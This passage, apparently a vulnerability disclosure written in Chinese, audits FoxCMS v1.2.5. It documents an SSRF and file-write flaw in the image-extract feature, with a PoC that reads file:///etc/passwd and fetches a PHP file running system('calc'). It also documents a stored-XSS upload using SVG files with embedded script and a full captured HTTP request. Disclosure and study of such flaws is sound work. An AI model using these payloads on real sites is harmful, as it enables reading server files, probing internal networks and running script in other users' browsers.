                        "endDate" => $endDate,
                        "extractedUrl" => ""
                    ];
                    $this->success("成功", "", $result);
                } elseif ($type == "extract") {
                    $groupId = 0;
                    $url = $param["extractUrl"];
                    $result = $this->getImg($url);
                    if ($result["code"] == 0) {
                        return $result;
                    }
                    $result = [
                        "total" => 0,
                        "currentPage" => 0,
                        "pageSize" => 0,
                        "imgList" => 0,
                        "groupId" => $groupId,
                        "groupList" => $groupList,
                        "type" => $type,
                        "handle" => $handle,
                        "startDate" => $startDate,
                        "endDate" => $endDate,
                        "extractedUrl" => $result["file"],
                        "id" => $result["id"]

                    ];
                    $this->success("成功", "", $result);
                }
            } elseif ($handle == "upload") {
                $imageUtil =  new ImageUtil();
                if ($imageUtil->validationRemote()) { //远程
                    $param['storage'] = 1; //阿里云暂时没配置
                } else {
                    $param['storage'] = 0; //本地
                }
                if ($groupId == 1) { //本地图片
                    if ($imageUtil->validationRemote()) { //远程
                        $this->error("上传失败，请在站点中的附件设置关闭远程上传");
                    }
                } else if ($groupId == 2) { //OSS图片
                    if (!$imageUtil->validationRemote()) { //远程
                        $this->error("上传失败，请在站点中的附件设置开启远程上传");
                    }
                }

                $files = request()->file('file');
                $imageUtil =  new ImageUtil();
                $errFileInfo = [];
                $upload_type = $param["upload_type"] ?? 0;
                foreach ($files as $file) {
                    if (is_file($file)) {
                        $info = $imageUtil->upload($file, $groupId, "image", 1, "files", $upload_type);
                        if ($info["code"] == 0) {
                            array_push($errFileInfo, $info);
                        }
                    }
                }
                if (sizeof($errFileInfo) > 0) {
                    $result = [
                        'code' => 0,
                        'msg'  => $errFileInfo[0]['msg'],
                        'data' => $errFileInfo,
                    ];
                    return json($result);
                }

                $imgData = $this->imgList($param);
                $this->updateImageGroup(); //更新图片组中的图片数
                $groupList = $this->groupList($param); //分组
                $result = [
                    "total" => $imgData["total"],
                    "currentPage" => $imgData["current_page"],
                    "pageSize" => $imgData["per_page"],
                    "imgList" => $imgData["data"],
                    "groupId" => $groupId,
                    "groupList" => $groupList,
                    "type" => $type,
                    "handle" => $handle,
                    "startDate" => $startDate,
                    "endDate" => $endDate,
                    "extractedUrl" => "",
                    "isStamped" => $isStamped
                ];
                $this->success("上传成功", "", $result);
            } elseif ($handle == "deleteGroup") {
                $dictValue = intval($groupId);
                $ddm =  DictDataModel::where(['dict_value' => $dictValue, 'dict_type' => 'fox_pic_group_type'])->find();
                if ($ddm && $ddm['type'] == "system") {
                    return json(["code" => 0, "msg" => "系统分组不允许删除"]);
                }
                $ddm->delete();
                $groupList = $this->groupList($param); //分组
                $imgData = $this->imgList($param); //本地
                $result = [
                    "total" => $imgData["total"],
                    "currentPage" => $imgData["current_page"],
                    "pageSize" => $imgData["per_page"],
                    "imgList" => $imgData["data"],
                    "groupId" => $groupId,
                    "groupList" => $groupList,
                    "type" => $type,
                    "handle" => $handle,
                    "startDate" => $startDate,
                    "endDate" => $endDate,
                    "extractedUrl" => "",
                    "isStamped" => $isStamped
                ];
                $this->success("成功", "", $result);
            } elseif ($handle == "addGroup" || $handle == "modifyGroup") {
                if (!empty($groupId) && !empty($param["groupName"])) {
                    $dictDataModel = DictDataModel::where(['dict_value' => $groupId, 'dict_type' => 'fox_pic_group_type'])->find();
                    $dictDataModel->dict_label = $param['groupName'];
                    $dictDataModel->save();
                } else {
                    //先查分组
                    $dictList = DictDataModel::field('dict_value')->where(['dict_type' => 'fox_pic_group_type'])->select();
                    $dict_value = 0;
                    foreach ($dictList as $dict) {
                        $dictValue = intval($dict['dict_value']);
                        if ($dict_value < $dictValue) {
                            $dict_value = $dictValue;
                        }
                    }
                    $saveData = ['dict_label' => $param['groupName']];
                    $saveData['dict_value'] = intval($dict_value) + 1;
                    $saveData['dict_sort'] = intval($dict_value) + 2;
                    $saveData['dict_type'] = 'fox_pic_group_type';
                    $saveData['remark'] = '图片添加分组';
                    $saveData['type'] = 'custom';
                    $dictDataModel = new DictDataModel();
                    $isSave = $dictDataModel->save($saveData);
                    if ($isSave) {
                    } else {
                        return json(['code' => 0, "添加分组,失败！"]);
                    }
                    $rd = $dictDataModel->where('dict_code', $dictDataModel['dict_code'])->find();
                    $groupId = $rd["dict_value"];
                    $param["groupId"] = $groupId;
                }
                $groupList = $this->groupList($param); //分组
                $imgDa1 = $this->imgList($param); //本地
                $result = [
                    "total" => $imgDa1["total"],
                    "currentPage" => $imgDa1["current_page"],
                    "pageSize" => $imgDa1["per_page"],
                    "imgList" => $imgDa1["data"],
                    "groupId" => $groupId,
                    "groupList" => $groupList,
                    "type" => $type,
                    "handle" => $handle,
                    "startDate" => $startDate,
                    "endDate" => $endDate,
                    "extractedUrl" => "",
                    "isStamped" => $isStamped
                ];
                $this->success("成功", "", $result);
            } elseif ($handle == "deleteImage") {
                $this->delete($param);
                $imgData6 = $this->imgList($param); //本地
                $this->updateImageGroup(); //更新图片组中的图片数
                $groupList = $this->groupList($param); //分组
                $result = [
                    "total" => $imgData6["total"],
                    "currentPage" => $imgData6["current_page"],
                    "pageSize" => $imgData6["per_page"],
                    "imgList" => $imgData6["data"],
                    "groupId" => $groupId,
                    "groupList" => $groupList,
                    "type" => $type,
                    "handle" => $handle,
                    "startDate" => $startDate,
                    "endDate" => $endDate,
                    "extractedUrl" => "",
                    "isStamped" => $isStamped
                ];
                $this->success("成功", "", $result);
            } else {
                $msg = "缺少handle参数";
            }
        } elseif ($event == "stamped") { //是否开启水印
            $isStamped = $param['isStamped'];
            if ($watermark == null) { //没有保存水印值
                $r = Db::name('watermark')->save(['status' => $isStamped]);
            } else {
                if ($isStamped != $watermark['status']) {
                    $r = Db::name('watermark')->update(['id' => $watermark['id'], 'status' => $isStamped]);
                } else {
                    $r = 1;
                }
            }
            if ($r) {
                $this->success("成功");
            }
        } else {
            $msg = "缺少event参数";
        }
        $this->error($msg);
    }

    public function delete($param)
    {
        $id = intval($param['id']);
        !($id > 0) && $this->error('参数错误');
        $file_data = UploadFilesModel::find($id);
        if ($file_data) {
            $storage = $file_data->getData('storage');
            if ($storage == 1) {
                $oss = new Oss();
                //                $key = explode(xn_cfg('upload.oss_endpoint').'/', $file_data->url);
                $key = explode($oss->getOssDomain() . '/', $file_data->url);
                //删除远程oss文件
                if (isset($key[1])) {
                    $oss->delete($key[1]);
                }
            } elseif ($storage == 2) {
                //删除七牛远程文件
                $domain = xn_cfg('upload.qiniu_domain');
                $key = str_replace($domain, '', $file_data->url);
                $qiniu = new Qiniu();
                $qiniu->delete($key);
            } else {

                //删除本地服务器文件
                $file_path = root_path() . "/" . ltrim($file_data->url, '/');
                if (file_exists($file_path)) {
                    unlink($file_path);
                }
            }
            UploadFilesModel::destroy($id);
            xn_add_admin_log('删除文件', "pic");
        }
        return "删除完成";
    }
}
```

​

​

主要漏洞在于调用了`getImg`方法

```
 elseif ($type == "extract") {
                    $groupId = 0;
                    $url = $param["extractUrl"];
                    $result = $this->getImg($url);
                    if ($result["code"] == 0) {
                        return $result;
                    }
                    $result = [
                        "total" => 0,
                        "currentPage" => 0,
                        "pageSize" => 0,
                        "imgList" => 0,
                        "groupId" => $groupId,
                        "groupList" => $groupList,
                        "type" => $type,
                        "handle" => $handle,
                        "startDate" => $startDate,
                        "endDate" => $endDate,
                        "extractedUrl" => $result["file"],
                        "id" => $result["id"]

                    ];
```

`getImg`中调用了`download`方法 之后调用`upload`方法

```
  private function getImg($url = "", $filename = "")
    {
        $imageUtil = new ImageUtil();
        $fileName = $imageUtil->download($url, $filename); //本地文件全路径
        if (empty($fileName)) {
            return ['code' => 0, 'msg' => "拉取文件失败"];
        }
        $file = new File($fileName);
        $result = $imageUtil->upload($file);
        if ($result['code'] == 1) {
            unlink($fileName);
            return $result;
        } else {
            return ['code' => 0, 'msg' => "上传失败"];
        }
    }
```

download中 `url`是传参完全可控的，会调用`get_url_content`方法  
download中的filename是通过url请求的文件获取的没有任何过滤，所以可以下载php文件，并且直接调用了file\_put\_contents导致php文件写入,并且默认写入路径为`uploads/date("Ymd")/`

```
   public function download($url = "", $filename = "", $path = "")
    {
        $filePath = config('filesystem.disks.folder') . DIRECTORY_SEPARATOR . date("Ymd");
        if (!empty($path)) {
            $filePath = $path;
        }
        if (!is_dir($filePath)) {
            tp_mkdir($filePath);
        }
        if (empty($filename)) {
            //上传到本地服务器
            $filename =  basename($url);
        }
        $filename = $filePath . DIRECTORY_SEPARATOR . $filename;
        $content = get_url_content($url);
        file_put_contents($filename, $content);
        return $filename;
    }
```

`get_url_content`方法中直接调用了curl请求url会造成ssrf漏洞

```
    function get_url_content($url)
    {
        $ch = curl_init();
        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
        curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, false);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $result = curl_exec($ch);
        return $result;
    }
```

但是之后upload的时候会有waf检查文件后缀是否在白名单，不在的话就会返回code=0 绕过了unlink的删除  


```
 public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
    {
        //记录入文件表
        $OriginalName = "";
        if (method_exists($file, "getOriginalName")) { //判断方法存在
            $OriginalName = $file->getOriginalName();
        } else {
            $OriginalName = $file->getFilename();
        }

        if (!empty($groupId) && $groupId == -1) {
            $groupId = 0;
        }

        //文件后缀名
        if (method_exists($file, "getOriginalExtension")) {
            $imageType = $file->getOriginalExtension();
        } else {
            $imageType = $file->getExtension();
        }

        if (!$this->validationSuffix($imageType)) { //验证图片类型
            return ['code' => 0, 'msg' => '请上传' . $this->attachment['i_suffixs'] . '格式文件', "originalName" => $OriginalName];
        }
```

### 漏洞攻击过程

我们在本地开启一个模拟内网的web服务

```
 php -S 127.0.0.1:8999
```

并放置一个`2.php`文件调用`calc`

```
<?php
system('calc');
```

然后在公司简介添加图片->选择网络图提取   
构造poc:

```
http://127.0.0.1:8999/2.php
```

  
查看内网web服务成功收到请求，并且2.php被运行弹出了计算器：成功SSRF攻击  


此漏洞还会将SSRF获取到的文件内容写入`uploads/date("Ymd")/`目录下，可以用伪协议读取内网以及系统任意文件

在公司简介添加图片->选择网络图提取 我们抓包，构造伪协议poc SSRF读取文件

```
handle=get&type=extract&extractUrl=file:///etc/passwd&isStamped=0&event=change
```

  
之后我们查看上传路径成功拿到文件内容

```
/uploads/20250125/passwd
```



​

# FOXCMS 文件上传漏洞说明

最新版本的 FoxCMS v1.2.5 存在文件上传漏洞，在网站上传图片功能，这些漏洞是由于输入验证和清理不足而发生的，攻击者可以利用此漏洞注入任意JS 代码，然后在其他用户浏览时执行。

FoxCMS是一套可免费商用开源的内容管理系统，采用PHP+MySQL架构。内置企业常用的内容模型，如单页、文章、产品、图集、视频、反馈、下载等，并配备丰富的模板标签及强大的SEO和伪静态优化机制。无需复杂编程技能，仅需掌握HTML即可快速构建出多元化的应用场景，实现内容的高效管理。系统支持多语言、表单设计、访客统计、消息通知、云存储服务等

### 白盒审计

漏洞主要代码在文件：

```
app\admin\controller\PicManager.php
```

  
调用了upload跟踪进入

```
  public function upload($file, $groupId = 0, $fileType = "image", $app = 1, $folder_name = "files", $upload_type = 0)
    {
        //记录入文件表
        $OriginalName = "";
        if (method_exists($file, "getOriginalName")) { //判断方法存在
            $OriginalName = $file->getOriginalName();
        } else {
            $OriginalName = $file->getFilename();
        }

        if (!empty($groupId) && $groupId == -1) {
            $groupId = 0;
        }

        //文件后缀名
        if (method_exists($file, "getOriginalExtension")) {
            $imageType = $file->getOriginalExtension();
        } else {
            $imageType = $file->getExtension();
        }

        if (!$this->validationSuffix($imageType)) { //验证图片类型
            return ['code' => 0, 'msg' => '请上传' . $this->attachment['i_suffixs'] . '格式文件', "originalName" => $OriginalName];
        }
        $size = $file->getSize(); //字节
        if (!$this->validationSize($size)) { //验证图片大小
            return ['code' => 0, 'msg' => '请上传小于等于' . $this->attachment['i_file_size'] . 'mb的文件', "originalName" => $OriginalName];
        }
        $file_path = ""; //文件路径
        $storage = 0; //本地
        if (($upload_type == 0) && $this->validationRemote()) { //开启远程
            $storage = 1; //远程
            //上传到阿里云oss
            $oss = new Oss();
            $file_path = $oss->putFile($file, $err, $folder_name);
            if (!$file_path) {
                return ['code' => 0, 'msg' => $err, "originalName" => $OriginalName];
            }
        } else { //未开启远程
            $file_path = $this->compression($file); //文件路径
        }

        //获取图片文件尺寸
        if (!(preg_match('/(http:\/\/)|(https:\/\/)/i', $file_path))) { //判断是否存在https或者http
            $url = root_path() . "/" . $file_path;
        } else {
            $url = $file_path;
        }
        $url = replaceSymbol($url);
        $imageInfo = getimagesize($url);
        $imgSize = "";
        if ($imageInfo) {
            $imgSize = "{$imageInfo[0]}X{$imageInfo[1]}";
        }

        $insert_data = [
            'url' => $file_path,
            'storage' => $storage,
            'app' => $app,
            'user_id' => intval(Session::get('admin_auth.id')),
            'file_name' => $OriginalName,
            'file_size' => $size,
            'file_group_type' => $groupId,
            'file_type' => $fileType,
            'create_time' => date("Y-m-d H:i:s"),
            'extension' => strtolower(pathinfo($OriginalName, PATHINFO_EXTENSION)),
            'size' => $imgSize
        ];
        $id = (new UploadFiles())->insertGetId($insert_data);

        if (!(preg_match('/(http:\/\/)|(https:\/\/)/i', $file_path))) { //判断是否存在
            if (!str_starts_with($file_path, "/")) {
                $file_path = "/" . $file_path;
            }
        }
        return ['code' => 1, 'file' => $file_path, 'id' => $id, 'msg' => "上传成功"];
    }
```

并且会对后缀检查，跟踪进入`validationSuffix`函数  
发现为白名单后缀检测，允许上传svg文件之后也没检查文件内容即可上传成功  


### 漏洞攻击

制作svg文件如下，插入XSS代码

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?>

<svg
   xmlns:dc="http://purl.org/dc/elements/1.1/"
   xmlns:cc="http://creativecommons.org/ns#"
   xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"
   xmlns:svg="http://www.w3.org/2000/svg"
   xmlns="http://www.w3.org/2000/svg"
   xmlns:sodipodi="http://sodipodi.sourceforge.net/DTD/sodipodi-0.dtd"
   xmlns:inkscape="http://www.inkscape.org/namespaces/inkscape"
   width="750"
   height="200"
   viewBox="0 0 198.4375 52.916666"
   version="1.1"
   id="svg8"
   sodipodi:docname="logo.svg"
   inkscape:version="0.92.5 (2060ec1f9f, 2020-04-08)">
  <g
     inkscape:label="Layer 1"
     inkscape:groupmode="layer"
     id="layer1"
     transform="translate(-9.8676114,4.8833333)">
    <path
       sodipodi:type="star"
       id="path3725-5"
       sodipodi:sides="6"
       sodipodi:cx="104.14816"
       sodipodi:cy="-16.792293"
       sodipodi:r1="7.333178"
       sodipodi:r2="6.350718"
       sodipodi:arg1="1.0502155"
       sodipodi:arg2="1.5738143"
       inkscape:flatsided="true"
       inkscape:rounded="0"
       inkscape:randomized="0"
       d="m 107.79557,-10.430538 -7.33315,-0.02213 -3.647402,-6.361755 3.685742,-6.339624 7.33314,0.02213 3.64741,6.361756 z"
       style="fill:#131f6b;fill-opacity:1;stroke-width:0.05937638"
       transform="scale(1,-1)" />
  <!-- The below lines were added in a text editor to the image XML. This is the stored XSS attack. -->
  <script type="text/javascript">
    alert("This is an example of a stored XSS attack in an SVG image")
  </script>
  </g>
</svg>
```

或者

```
<?xml version="1.0" standalone="no"?>

<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" >

   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
   <script type="text/javascript">
      alert("xss");
   </script>
</svg>
```

登录后台  
  
选择添加图片上传svg文件即可  


抓包得到完整http包：

```
POST /index.php/admin4943/PicManager/picManager.html HTTP/1.1

Host: localhost

Accept-Encoding: gzip, deflate, br, zstd

Accept: */*

Cookie: Phpstorm-db9a8415=b6480a2a-df8b-4049-b957-2723e5e1ad60; XDEBUG_SESSION=PHPSTORM; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D; EM_AUTHCOOKIE_lNE22nMPAa488ZNtzQ3WgvxbdQwb6OXM=admin%7C1770040866%7Cb261421f97bb00341664ae3a0f324f32; ujcms-visit-unique-visitor=499762764960989; ujcms-unique-visitor=-7658023558624320967; PHPSESSID=063db44dee3fd725ac70bcdf2d33ffbe; keeplogin=1%7C86400%7C1739866061%7C1ac00e88e1610806dc9a101784368bbd; status_desc=%3Cscript%3Ealert%28%2Fxss%2F%29%3C%2Fscript%3E; version=1.2.5; access_::1=1739784248; access_127_0_0_1=1739791249

X-Requested-With: XMLHttpRequest

Sec-Fetch-Site: same-origin

Referer: http://localhost/index.php/admin4943/Config/base.html?columnId=23

Cache-Control: no-cache

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36

sec-ch-ua-platform: "Windows"

sec-ch-ua-mobile: ?0

Pragma: no-cache

Sec-Fetch-Mode: cors

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9cau8eWCxPD8xFV6

Sec-Fetch-Dest: empty

Origin: http://localhost

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8

sec-ch-ua: "Not(A:Brand";v="99", "Google Chrome";v="133", "Chromium";v="133"

Content-Length: 1324

  
------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="file[]"; filename="stored.svg"

Content-Type: image/svg+xml

  
<?xml version="1.0" standalone="no"?>

<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" >

   <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

   <script type="text/javascript">

      alert("xss");

   </script>

</svg>

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="file[]"

  
1

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="file[]"

  
function item() { [native code] }

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="pageSize"

  
10

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="groupId"

  
-1

------WebKitFormBoundary9cau8eWCxPD8xFV6

Content-Disposition: form-data; name="event"

  
change

------WebKitFormBoundary9cau8eWCxPD8xFV6

